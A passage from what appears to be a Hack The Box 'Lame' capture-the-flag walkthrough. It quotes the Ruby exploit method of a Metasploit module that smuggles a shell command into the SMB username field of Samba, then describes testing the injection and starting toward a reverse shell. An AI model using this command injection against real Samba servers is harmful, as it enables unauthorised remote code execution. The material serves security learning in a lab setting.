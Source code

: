 
```ruby
def exploit

    connect

    # lol?
    username = "/=`nohup " + payload.encoded + "`"
    begin
      simple.client.negotiate(false)
      simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
    rescue ::Timeout::Error, XCEPT::LoginError
      # nothing, it either worked or it didn't ;)
    end

    handler
  end
```

We can see that there is a command injection in the username argument. Let's test it out:


<p align="center">
  <img src="/images/walkthroughs/hackthebox/lame/2_1_test.png" width="80%"/>
</p>

And we get an incomming HTTP GET request, therefore we have correctly injected a command. Now we try to create a revshell.
